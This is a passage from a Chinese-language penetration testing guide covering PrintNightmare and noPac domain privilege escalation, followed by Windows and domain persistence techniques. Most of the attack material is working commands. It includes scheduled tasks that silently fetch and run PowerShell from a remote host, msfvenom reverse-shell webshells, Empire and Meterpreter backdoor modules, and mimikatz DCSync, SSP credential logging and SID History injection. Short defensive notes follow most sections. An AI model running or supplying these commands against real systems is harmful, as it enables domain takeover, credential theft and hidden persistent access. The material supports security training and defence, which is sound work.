misc::printnightmare /server:192.168.23.132 /authuser:admin /authpassword:Test123 /library:\\192.168.23.1\temp\beacon.dll
```




##### powershell脚本攻击

下载地址：https://github.com/calebstewart/CVE-2021-1675

###### 添加本地管理员用户

```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DriverName "driver" -NewUser "admin123" -NewPassword "Test123@asd"
```



###### 上线CS

需提前将dll恶意文件复制到目标主机C盘下

```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\beacon.dll"
```




#### 漏洞修复

**1.** **官方建议：**

目前官方已发布漏洞修复补丁，建议受影响用户尽快更新漏洞补丁。

https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675

**2.临时防护措施：**

若相关用户暂时无法进行补丁更新，可通过禁用Print Spooler服务来进行缓解：

1）在服务应用（services.msc）中找到Print Spooler服务。

2）停止运行服务，同时将“启动类型”修改为“禁用”。


### CVE-2021-42278/CVE-2021-42287域提权漏洞

#### 漏洞背景

```
  2021年11月，有两个漏洞CVE-2021-42278&CVE-2021-42287被露，两个漏洞组合可导致域内普通用户权限提升至域管权限。
```


#### 漏洞原理

##### CVE-2021-42278

```
  windows域内的机器账户的名字以$结尾，但DC没有对域内机器账户名做验证。与CVE-2021-42287结合使用，它允许攻击者冒充域控制器账户。
```

##### CVE-2021-42287

```
  在kerberos认证过程中，用户要访问某个服务，在获取服务票据ST之前，需要申请TGT票据。该漏洞的核心为：当请求的服务票ST没有被KDC找到时，KDC会自动在尾部添加$重新搜索。
  如果A用户获得申请了TGT，然后删除A用户或重命名A用户。并使用该TGT进行S4U2self以其它用户身份请求一张ST给他自己，导致KDC在AccountDatabase中寻找A$。如果帐户A$存在，那么A就会像其他用户一样为A$获得一张服务票据。
  因此，机器账户改名为和DC机器账户一样，然后申请TGT，接着把用户名修改掉，使得DC在TGS_REP时候找不到该账户，这时会用自己的密钥加密服务票据ST，然后就是得到了一个高权限ST。
```


#### 漏洞影响版本

##### **CVE-2021-42278 受影响系统**

```
 Windows Server 2012 R2
 Windows Server 2012 (Server Core installation)
 Windows Server 2012
 Windows Server 2008 R2 for x64-based Systems Service Pack 1(Server Core installation)
 Windows Server 2008 R2 for x64-based Systems Service Pack 1
 Windows Server 2008 for x64-based Systems Service Pack 2(Server Core installation)
 Windows Server 2008 for x64-based Systems Service Pack 2
 Windows Server 2008 for 32-bit Systems Service Pack 2(Server Core installation)
 Windows Server 2008 for 32-bit Systems Service Pack 2
 Windows Server 2016 (Server Core installation)
 Windows Server 2016
 Windows Server, version 20H2 (Server Core Installation)
 Windows Server, version 2004 (Server Core installation)
 Windows Server 2022 (Server Core installation)
 Windows Server 2019 (Server Core installation)
 Windows Server 2022 Windows Server 2019
 Windows Server 2012 R2 (Server Core installation)
```

##### CVE-2021-42287 受影响系统

```
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1(Server Core installation)
Windows Server 2012
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2(Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2(Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows Server 2016 (Server Core installation)
Windows Server 2016Windows Server, version 20H2 (Server Core Installation)
Windows Server, version 2004 (Server Core installation)
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows Server 2019 (Server Core installation)
Windows Server 2019
```


#### 测试环境

|          操作系统版本           |     IP地址     | 机器名称 |       用户名密码       |    域     |
| :-----------------------------: | :------------: | :------: | :--------------------: | :-------: |
| Windows Server 2012 R2 Standard | 192.168.22.131 |    DC    | administrator：Test123 | de1ay,com |
|       Windows 7 x64专业版       | 192.168.22.150 |    PC    |  test1：Password@123   | de1ay.com |


#### 漏洞流程

前提：需要对属性sAMAccountName和servicePrincipalName具有写权限。由于默认情况下[MAQ]特性，域内普通用户可以创建 10 个机器账户，而创建者对于机器账户具有写权限，当然可以更改这两个属性。

漏洞流程：

- 首先创建一个机器账户，使用 impacket 的 `addcomputer.py` 或是 `powermad`

​           `addcomputer.py`是利用 `SAMR协议` 创建机器账户，这个方法所创建的机器账户没有 SPN，所以可以不用清除。

- 然后清除机器账户的 `servicePrincipalName` 属性
- 将机器账户的 `sAMAccountName`，更改为 DC 的机器账户名字，注意后缀不带 `$`
- 为机器账户请求 TGT
- 将机器账户的 `sAMAccountName` 更改为其他名字，不与步骤 3 重复即可
- 通过 S4U2self 协议向 DC 请求 ST
- DCsync

**Windows系统下：**

工具下载地址：

powermad.ps1：https://github.com/Kevin-Robertson/Powermad

PowerView.ps1：https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Rubeus：https://github.com/GhostPack/Rubeus/releases/tag/1.6.4

mimikatz：https://github.com/gentilkiwi/mimikatz/releases

```bash
# 0. create a computer account
powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "de1ay.com" -DomainController "DC.de1ay.com" -Verbose

# 1. clear its SPNs
Import-Module .\PowerView.ps1
Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=de1ay,DC=com" -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DC" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DC" /password:"ComputerPassword" /domain:"de1ay.com" /dc:"DC.de1ay.com" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose


# 5. obtain a service ticket with S4U2self by presenting the previous TGT
.\Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:DC.de1ay.com /self /altservice:LDAP/dc.de1ay.com /ptt /ticket:[Base64 TGT]

# 6. DCSync
mimikatz.exe "lsadump::dcsync /user:de1ay\krbtgt /domain:de1ay.com /dc:DC.de1ay.com"
```



**Linux系统下：**

impacket下载地址：https://github.com/ShutdownRepo/impacket/tree/CVE-2021-42278

getTGT.py（需另外安装新版）：https://raw.githubusercontent.com/ShutdownRepo/impacket/getST/examples/getST.py

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-ip 192.168.22.131 -domain-netbios domain 'de1ay.com/test1:Password@123'

# 1. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DC' -dc-ip 192.168.22.131 'de1ay/test1:Password@123'


# 2. obtain a TGT
getTGT.py -dc-ip 192.168.22.131 de1ay.com/DC:ComputerPassword

# 3. reset the computer name
renameMachine.py -current-name 'DC' -new-name 'ControlledComputer$' -dc-ip 192.168.22.131 'de1ay/test1:Password@123'

# 4. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DC.ccache' python3 getST.py -spn cifs/DC.de1ay.com de1ay.com/DC:ComputerPassword -dc-ip 192.168.22.131 -impersonate administrator -self

# 5. DCSync by presenting the service ticket
sudo KRB5CCNAME='administrator.ccache' secretsdump.py -k -no-pass DC.de1ay.com -just-dc
```




#### 漏洞利用

##### impacket攻击

下载地址：https://github.com/ly4k/Pachine

###### 漏洞探测

```bash
python3 pachine.py -dc-host 192.168.22.131 -scan "de1ay.com/test1:Password@123"
```



###### 漏洞攻击

```bash
python3 pachine.py -dc-host dc.de1ay.com -spn cifs/dc.de1ay.com -impersonate administrator 'de1ay.com/test1:Password@123'
export KRB5CCNAME=$PWD/administrator@de1ay.com.ccache
python3 wmiexec.py -k -no-pass 'de1ay.com/administrator@dc.de1ay.com'
```




##### nopac.exe

下载地址：https://github.com/cube0x0/noPac

###### 漏洞探测

```bash
noPac.exe scan -domain de1ay.com -user test1 -pass Password@123
```



###### 漏洞攻击

```bash
noPac.exe scan -domain pentest.lab -user test1 -passPassword@123 /dc DC.de1ay.com lab /mAccount admin /mPassword Password@123 /service cifs /ptt
```






#####  sam_the_admin

下载地址：https://github.com/WazeHell/sam-the-admin

###### 获取域控shell

```bash
python3 sam_the_admin.py "de1ay/test1:Password@123" -dc-ip 192.168.22.131 -shell
```



###### 导出域内哈希

```bash
python3 sam_the_admin.py "de1ay/test1:Password@123" -dc-ip 192.168.22.131 -dump
```




#### 漏洞缓解与修复

```
1、微软官方已推出补丁：KB5008602、KB5008380
2、通过域控的 ADSI 编辑器工具将 AD 域的 MAQ 配置为 0，中断此漏洞的利用链。
```


#### 参考资料

https://www.geekby.site/2021/12/samaccountname-spoofing/#3-%E7%BC%93%E8%A7%A3%E6%8E%AA%E6%96%BD

http://evilash.me/2021/12/12/GetDCSamaccountname.html


## 七、权限维持

### 操作系统后门

#### 粘滞键后⻔

```
  在windows主机上连续按5次“Shitf”键，就可以调出粘滞键。但攻击者会将sethc.exe替换成cmd.exe，导致粘滞键后门的产生。
```

##### 粘滞键后⻔利用方法

###### **命令行手动替换**

```
cd c:\windows\system32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe
```


如果提升权限不足，就先将提权提升到TrustedInstaller后再替换




###### **Empire权限持久性劫持shift后门**

**在Empire下也可以简单地实现这一功能，加载powershell/lateral_movement/invoke_wmi_debugger模块，配置好参数运行即可**

```
usemodule powershell/lateral_movement/invoke_wmi_debugger
set Agent 2FAYBET1
set ComputerName Win-2008
set Listener http
execute
```



**运行以上命令，在目标主机远程登录窗口中按5次"Shift"键即可触发后门，目标主机上会有一个命令行一闪而过。然后回到Empire可以发现，有反弹代理上线了**



##### **粘滞键后⻔防御措施**

```
1、在远程登录服务器时，连续按5次“Shitf”键，判断服务器是否被入侵。
2、拒绝使用sethc.exe或者在"控制面板"中关闭"启用粘滞键"选项
```


#### 注册表后门

```
	在普通权限下，攻击者会将需要执行的后门程序或脚本路径填写到注册表键HKCU\Sofrware\Microsoft\windows\CurrentVersion\Run中
```

##### 注册表后门利用方法

###### **Empire**

**在Empire下调用powershell/persistence/userland/registry模块，配置好相关参数后运行，模块运行后会在目标主机的启动项中增加一个指令**

```
usemodule powershell/persistence/userland/registry
set Agent K4WXAFRC
set Listener http
set RegPath HKCU:software\Microsoft\Windows\CurrentVersion\Run
execute
```



**运行以上命令，在目标主机管理员登录时，后门就会运行，服务端反弹成功**




##### **针对注册表后门防范**

```
	杀毒软件针对此类后门有专门的查杀机制，当发现系统中存在后门时会弹出提示框。根据提示内容，采取相应的措施，即可删除此类后门。
```


#### 计划任务后门

```
	计划任务在Windows7之前版本操作系统中使用at命令调用，在从Windows8版本开始的操作系统使用schtasks命令调用。计划任务后门分为管理员权限和普通用户权限两种。管理员权限的后门可以设置更多的任务计划，例如重启后运行等。
```

##### **基本命令** 

```
schtasks /create /tn updater /tr notepad.exe /sc hourly /mo 1   //每⼩时执⾏⼀次 notepad
```

##### 计划任务后门利用方法

###### **Empire中模拟任务计划后门**

在Empire中调用powershell/persistence/elevated/schtasks模块，配置好相关参数后运行模块。这样，到了设置的时间，就会返回一个高权限的Shell

```
usemodule powershell/persistence/elevated/schtasks
set Listener http
set Agent WDA1629M
set DailyTime 11:49
execute
```



运行以上命令后，只需等待到了设置的时间，成功反弹Shell




###### **Metasploip模拟计划任务后门**

```
  使用metasploit的Powershell Payload Web Delivery模块，可以模拟攻击者在目标系统中快速建立会话的行为。因为该行为不会被写入硬盘中，所以安全防护软件不会对该行为进行检测。
```

**运行如下命令生成后门：**

```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.23.1
set lport 443
set uripath /
exploit
```



**如果攻击者在目标系统中新建一个计划任务，就会自动加载生成的后门。**

用户登录

```
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.23.1:8080/'''))' " /sc onlogon /ru System
```

系统启动时

```
64位系统：
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-objectnet.webclient).downloadstring(''http://192.168.23.1:8080/'''))' " /sc onstart /ru System

32位系统：
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-objectnet.webclient).downloadstring(''http://192.168.23.1:8080/'''))' " /sc onstart /ru System
```

系统空闲

```
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.23.1:8080/'''))' " /sc onidle /i 1
```

保持Metasploit监听的运行，打开连接，成功反弹




###### **PowerSploit模拟计划任务后门**

```
  使用Powershell版本的PowerSploit渗透测试框架中的Persistence模块，可以模拟生成一个自动创建计划任务的后门脚本
```

**1、将powerSploit下的persistence.psm1模块上传到目标系统中，输入以下命令导入模块：**

```
Import-Module ./Persistence.psm1
```



**2、输入以下命令，使用计划任务的方式创建后门。该后门会在计算机处于空闲状态执行，执行成功后会生成名为"Persistence.ps1"的脚本**

```
$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle Add-Persistence -FilePath ./shutter.ps1 -ElevatedPersistenceOption 
$ElevatedOptions -UserPersistenceOption $UserOptions -Verbors
```



**3、在上述命令中，shutter.ps1是计划任务要执行的Payload。可以执行如下命令生成该文件**

```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.23.1 lport=443 -f psh-reflection -o shuteer.ps1
```



**4、将Persistence.ps1放到Web服务器上，在目标主机中利用Powershell加载并运行它。当目标主机处于空闲状态时，就会执行如下命令，反弹一个Meterpreter会话**

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.23.1/Persistence.ps1')"
```



**5、启动MSF开启监听，等待目标主机执行后门成功反弹Meterpeter会话**




##### 计划任务后门的防范

```
  对计划任务后门，有效的防范措施是安装安全防护软件并对系统进行扫描；及时为系统打补丁；在内网中使用强度较高的密码。
```


#### meterpreter后门（需要先获取到一个meterpreter会话）

##### meterpreter后门利用方法

###### **通过persistence脚本创建持久性后门**

```
meterpreter > run persistence -U -i 5 -p 12345 -r 192.168.23.1 //创建持久性后门，用户登录时自动启动目标，并每5秒时间连接一次
-A 自动启动一个匹配的exploit / multi / handler来连接到代理
-L 如果未使用％TEMP％，则在目标主机中写入有效负载的位置。
-P 有效负载使用，默认为windows / meterpreter / reverse_tcp。
-S 作为服务自动启动该木马（具有SYSTEM权限）
-T 要使用的备用可执行模板
-U 用户登录时自动启动该木马
-X 系统引导时自动启动该木马
-h 这个帮助菜单
-i 每次连接尝试之间的时间间隔（秒）
-p 运行Metasploit的系统正在侦听的端口
-r 运行Metasploit监听连接的系统的IP
```



**创建后门成功后，我们还需开启一个监听，等待反弹Shell**

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 12345
set lhost 192.168.23.1
set exitonsession false
exploit
```



##### meterpreter后门防御措施

```
  Persistence是meterpreter自带的后门程序，是一个使用安装自启动方式的持久性后门程序。在使用这个后门程序时，需要在目标主机上创建文件，因此安全防护软件会报警。网络管理人员可以根据安全软件的报警信息，采取相应的防范措施。
```


#### WMI型后门

```
   WMI型后门只能由具有管理员权限的用户运行。WMI型后门通常是用Powershell编写的，可以直接从新的WMI属性中读取和执行后门代码、给代码加密。通过这种方法，攻击者可以在系统中安装一个具有持久性的后门，且不会在系统磁盘中留下任何文件。
   WMI型后门只要使用了WMI的两个特征，即无文件和无进程。其基本原理是：将代码加密存储于WMI中，达到所谓的"无文件"；当设定的条件被满足时，系统将自动启动powershell进程去执行后门程序，执行后，进程将会消失（持续时间根据后门的运行情况而定，一般是几秒）。
```

##### WMI型后门利用方法

###### **Empire中Invoke-WMI模块**

```
usemodule powershell/persistence/elevated/wmi
set Agnet BVM4CR9A
set Listener http
execute
```



只需等待目标主机重启计算机后，就会反弹Shell回来了



##### Wmi型后门检测

* 使用微软提供的工具`Autoruns`：https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns


#### WinRM实现端口复用打造隐蔽后门

```
   该端口复用的原理是使用Windows的远程管理服务WinRM，结合 HTTP.sys 驱动自带的端口复用功能，一起实现正向的端口复用后门。
   而HTTP.sys驱动是IIS的主要组成部分，主要负责HTTP协议相关的处理，它有一个重要的功能叫Port Sharing(端口共享)。所有基于HTTP.sys驱动的HTTP应用都可以共享同一个端口，只需要各自注册的URL前缀不一样。而WinRM就是在HTTP.sys上注册了 wsman 的URL前缀，默认监听 5985端口。因此，在安装了IIS的Windows服务器上，开启WinRM服务后修改默认监听端口为80或新增一个80端口的监听即可实现端口复用，通过Web端口登录Windows服务器.
   对于Windows Server 2012以上的服务器操作系统中，WinRM服务默认启动并监听了5985端口。如果服务器本来就监听了80和5985端口，则所以我们既需要保留原本的5985监听端口，同时需要新增Winrm监听80端口。这样的话，WinRM同时监听80和5985端口。既能保证原来的5985端口管理员可以正常使用，我们也能通过80端口远程连接WinRM。
```

##### 利用方法

通过下面的命令，可以新增WinRM一个80端口的监听。

```
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
```



查看80监听端口是否新增成功

```
winrm e winrm/config/listener
```



查看监听端口，80端口和5985端口都在监听

```
netstat -ano
```



**修改WinRM默认监听的端口**

如果是通过入侵后开启的WinRM服务的话，建议将WinRM监听端口修改为80端口，不然容易引起管理员注意。

```
快速启动WinRM
winrm  quickconfig  -q
修改WinRM默认端口为80
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```



再次查看监听端口，只有80端口在监听了

```
netstat -ano
```



**使用winrs.exe来执行远程命令利用(系统自带)**

```
##远程执行命令
winrs -r:192.168.93.10 -u:administrator -p:Test123  Whomia

##获取交互式的shell
winrs -r:192.168.93.10 -u:administrator -p:Test123 cmd
```



参考文章：https://xie1997.blog.csdn.net/article/details/105864425


### web后门

#### Nishang下的 webshell

```
在Nishang中也存在ASPX的"大马"。该模块存在nishang/Antak-WebShell目录下。使用该模块，可以进行编码、执行脚本、下载\上传文件等
```




#### weevely

```
   Weevely是一款python编写的webshell管理工具，作为编写语言使用python的一款工具，它最大的优点就在于跨平台，可以在任何安装过python的系统上使用。
```

 **其主要功能如下。**

（1）执行命令和测览远程文件。
（2）检测常见的服务器配置问题。
（3）创建TCP Shell和Reverse Shell,
（4）打扫描端口。
（5）安装HTTP代理。

**1、生成一句话木马并上传至目标服务器**

```
weevely generate test test.php   //一句话木马密码为test
```



**2、连接一句话木马**

```
weevely http://192.168.1.1/test.php test
```



**常用命令如下：**

```
audit_suidsgid    通过SUID和SGID查找文件，
audit_filesystem    用于进行错误权限审计的系统文件。
audit_etcpasswd    通过其他方式获取的密码，
shell_php    执行PHP命令。
shell_sh     执行Shell命令。
shell_su     利用su命令提权。
system_extensions    收集PHP和Web服务器的延伸列表，
system_info        收集系统信息。
backdoor_tcp     在TCP端口处生成一个后门。
sql_dump         导出数据表。
sql_console      执行SQL查询命令或者启动控制台。
net_ifconfig     获取目标网络的地址。
net_proxy        通过本地HTTP端口设置代理。
net_scan        扫描TCP端口。
net_curl        远程执行HTTP请求。
net_phpproxy    在目标系统中安装PHP代理。
```


#### webacoo

```
   WeBaCoo（Web Backdoor Cookie）是一款隐蔽的脚本类Web后门工具。借助HTTP协议，它可在客户端和Web服务器之间实现执行代码的网页终端。WeBaCoo的精妙之处在于，Web服务器和客户端之间的通信载体是Cookie。这就意味着多数的杀毒软件、网络入侵检测/防御系统、网络防火墙和应用程序防火墙都无法检测到后门的存在。
```

**1、生成一个Webshell ,并将其保存test.php**

```
webacoo -g -o test1.php
```



**2、将Webshell上传到目标服务器上，然后连接Webshell**

```
webacoo -t -u http://192.168.23.143/test.php
```

连接成会生成一个仿真终端，在这里，可以使用"load"命令查看其模块，并可以进行上传、下载、连接数据库等操作。




#### meterpreter webshell

##### 生成ASP的WebShell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.23.1 lport=4444 -f asp -o shell.asp
```



##### 生成ASPX的WebShell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.23.1 lport=4444 -f aspx -o shell.aspx
```



##### 生成JSP的WebShell

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.23.1 lport=4444 -f raw -o shell.jsp
```


##### 生成PHP的WebShell

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.23.1 lport=4444 -f raw -o shell.php
```


### 域控制器权限持久化分析与防范

#### **DSRM域后门**

##### **DSRM简介**

```
DSRM ( Directory Services Restore Mode,目录服务恢复模式)是Windows域环境中域控制器的安全模式启动选项。每个域控制器都有一个本地管理员账户 (也就是DSRM账户)。DSRM的用途是:允许管理员在域环境中出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM的密码需要在安装DC时设置，且很少会被重置。修改DSRM密码最基本的方法是在DC上运行ntdsutil 命令行工具。在渗透测试中，可以使用DSRM账号对域环境进行持久化操作。如果域控制器的系统版本为Windows Server 2008，需要安装KB961320才可以使用指定域账号的密码对DSRM的密码进行同步。在Windows Server 2008以后版木的系统中不需要安装此补丁。如果域控制器的系统版本为Windows Server 2003则不能使用该方法进行持久化操作。
我们知道，每个域控制器都有本地管理员账号和密码(与城管理员账号和密码不同)。DSRM账号可以作为一个域控制器的本地管理品用户， 通过网络连接城控制器， 进而控制域控制器。
```

##### **修改DSRM密码的方法**

微软公布了修改DSRM密码的方法。在城控制器上打开令行环境，常用命令说明如下，

```
NTDSUTIL: 打开ndsuil
set dsrm password:设置DSRM的密码。
reset pssword on server null:在当前域控制器上恢复DSRM密码。
<PASSWORD>:修改后的密码。
q(第1次):退出DSRM密码设置模式。
q(第2次):退出ntdsutil
```

如果域控制器的系统版本为Windows Server 208已安装KB961320 及以上，可以将DSRM密码同步为已存在的域账号密码。常用命令说明如下。

```
NTDSUTIL: 打开ntdsutil。
SET DSRM PASSWORD:设置DSRM的密码。
SYNC FROM DOMAIN ACCOUNT domainusername:使DSRM的密码和指定域用户的密码同步。
q(第1次):退出DSRM密码设置模式。
q(第2次):退出ntdsutil。
```

##### **DSRM域后门利用方法**

1、首先，我们为 DSRM 账号设置新密码。在域控制器（Windows 2008）的cmd中进入ntdsutil，然后输入下面命令进行修改DSRM账户的密码：

```
ntdsutil    // 进入ntdsutil
set dsrm password    // 设置DSRM账户的密码
reset password on server null    // 在当前域控制器上恢复DSRM密码
<password>    // 输入新密码
<password>    // 重新输入新密码
q    //退出DSRM密码设置模式
q    // 退出ntdsutil
```



2、接着，我们使用kiwi模块执行mimikatz命令来读取域控本地SAM文件中的本地管理员的NTLM Hash，确认域控制器上DSRM账户的密码是否修改成功：

```
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd token::elevate
kiwi_cmd lsadump::sam
```



如上图所示，本地管理员administrator的NTLM Hash为：81be2f80d568100549beac645d6a7141

3、然后，我们修改域控主机的DSRM账户登录方式。在Windows Server 2000以后的版本操作系统中，对DSRM使用控制台登录域控制器进行了限制。我们可以在注册表的HKLM:\System\CurrentControlSet\Control\Lsa\中新建DsrmAdminLogonBehavior项进行设置，将该新建的项中的值设为0、1、2可以分别设置不同的DSRM账户登录方式：

* 0：默认值，只有当域控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号
* 1：只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器
* 2：在任何情况下，都可以使用DSRM管理员账号登录域控制器

如下所示，我们用powershell命令将DSRM的登录方式设置为“2”，即在任何情况下，都可以使用DSRM管理员账号登录域控制器：

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -name "DsrmAdminLogonBehavior" -value 2 -propertyType DWORD
```



4、使用DSRM账号通过网络远程登录域控制器

**注意，在这里，/domain 选项不是添域名，而是域控制器的机器名（DC），一定要注意。**

```
privilege::debug
sekurlsa::pth /domain:owa /user:administrator /ntlm:81be2f80d568100549beac645d6a7141
```



除了向上面那样直接修改DSRM账户的密码外，我们还可以为DSRM同步为一个普通域用户的密码。但是要注意，本次靶场的域控制器的系统版本为Windows Server 2008，所以需要安装 KB961320 补丁才可以使用指定域账号的密码对DSRM的密码进行同步。在Windows Server2008以后版本系统中不需要安装此补丁

同步的方式如下：

```
ntdsutil // 进入ntdsutil 
set dsrm password // 设置DSRM账户的密码
sync from domain account domainusername ?// 使DSRM的密码和指定的domainusername域用户的密码同步
q //退出DSRM密码设置模式 ? ?
q // 退出ntdsutil
```

之后的操作就和上面所演示的一样了，同样还是读取本地SAM文件中的本地管理员的NTLM Hash，确认域控制器上DSRM账户的密码是否修改成功，然后同样还是修改目标主机DC的DSRM账户登录方式，最后同样还是在域成员主机Windows7上通过mimikatz，使用域控制器的本地Administrator账号哈希传递攻击域控。

##### **DSRM域后门防御措施**

```
1、定期检查注册表中用于控制DSRM登录方式的键值HKLM:\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior，确认值为1，或者删除该键值
2、定期修改域中所有域控制器的DSRM账号
3、经常检查ID为4794的日志。尝试设置活动目录服务还原模式的管理员密码会被记录在4794日志中
```


#### SSP维持域控权限

```
   (Security Support Provider)`是Windows操作系统安全机制的提供者。简单说SSP是一个DLL文件，主要用来实现windows操作系统的身份认证功能，如NTLM、kerberos、Negotiate、Secure Channel(Schannel)、Digest、Credential(CredSSP)
   SSPI(Security Support Provider Interface安全支持提供程序接口)是windows操作系统在执行认证操作时使用的API接口。可以说SSPI是SSP的API接口
   如果获得了网络中目标机器的system权限，可以使用该方法进行持久化操作。其主要原理是LSA(Loacl Security Authority)用于身份验证；lsass.exe作为Windows系统进程，用于本地安全和登录策略；在系统启动时，SSP将被加载到lsass.exe进程中。但是，如果我们对LSA进行了扩展，自定义了恶意DLL文件，在系统启动时将其加载到lsass.exe进程中，就能够获取lsass.exe进程中的明文密码。这样，即使用户更改密码并重新登录，攻击者依然可以获取该账号的新密码。
```

##### **SSP维持域控权限利用方法**

下面介绍两个实验

第一个实验，使用`mimikatz`将伪造的`SSP`注入内存。这样做不会在系统中留下二进制文件，但如果域控制器重启，被注入内存的伪造的SSP将会丢失。

在域控制器中以管理员权限打开`mimikatz`，输入如下命令

```
privilege::debug
misc::memssp
```



注销当前用户。输入用户名和密码后重新登录，获取明文密码，密码存储在日志文件`C:\Windows\System32\mimilsa.log`中


第二个实验，将`mimikatz中的mimilib.dll`放到系统的`C:\Windows\System32\`目录下，并将`mimiliv.dll`添加到注册表中。这种方法，及时系统重启，也不会影响持久化效果

将mimikatz中的`mimilib.dll`复制到系统的`C:\Windows\System32\`目录下



修改`HKEY_LOCAL_MACHINE\System\CurrentSet\Control\Lsa\Security Packages`项，加载新的`DLL`文件



**命令模式**

```
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages" 
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security 
```

系统重启后，如果DLL被成功加载，用户在登录时输入的账号和密码明文就会被记录在`C:\Windows\System32\kiwissp.log`中




##### SSP维持域控制器权限的防御措施

- 检查HKEY_LOCAL_MACHINE\System\CurrentSet\Control\Lsa\Security Package项中是否含有可疑的DLL文件
- 检查C:\Windows\System32\目录下是否有可疑的DLL文件
- 使用第三方工具检查LSA中是否有可疑的DLL文件


#### SID History域后门

```
   每个用户都有自己的SID。SID的作用主要是跟踪安全主题控制用户连接资源时的访问权限。`SID History`是在域迁移过程中需要使用的一个属性。
   如果将A域中的域用户迁移到B域中，那么在B域中新建的用户的SID会随之改变，进而影响前一后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。`SID History`的作用是在域迁移过程中保持域用户的访问权限，既如果迁移后的用户保持原有权限、能够访问其原来可以访问的资源。使用mimikatz，可以将SID History属性添加到域中任意用户的SID History属性中。在获取了域管理员权限（或者等同于域管理员的权限）就可以将SID History作为实现持久化的方法
```

##### **SID History域后门利用方法**

将`Aadministrator`的`SID`添加到恶意用户`test`的`SID History`属性中。使用powershell查看`hacke`用户的`SID History`属性

```
Import-Module ActiveDirectory
Get-ADUser test -Properties sidhistory
```


打开一个具有域管理员的命令行窗口，运行mimikatz，将Administrator的SID添加到test用户的SID History属性中。注意：在使用mimikatz注入SID之前，使用`sid::patch`命令修复`NTDS`服务，否则无法将高权限的ISD注入低权限用户的SID History属性;mimikatz在2.1版本后，将misc::addsid模块移到了sid::add模式下

```
privilege::debug
sid::patch
sid::add /sam:test /new:administrator
```



再次使用powershell查看`test`用户的`SID History`

```
Get-ADUser test -Properties sidhistory
```



使用`test`用户登录系用，测试其是否具有`Administrator`的权限。尝试列出域控制器`C盘`的目录




##### **SID History 域后门的防御措施**

- 经常c哈看域用户中SID为500的用户
- 完成域迁移工作后，对有相同SID History属性的用户进行检查
- 定期检查ID为4765和4766的日志。4765为将SID History属性添加到用户的日志。4766为将SID History属性添加到用户失败的日志


#### Golden Ticket（黄金票据）

```
   在渗透测试过程中，攻击者往往会给自己留下多条进入内网的通道，如果我们忘记将 krbtgt 账号重置，攻击者就能快速重新拿到域控制器的权限。
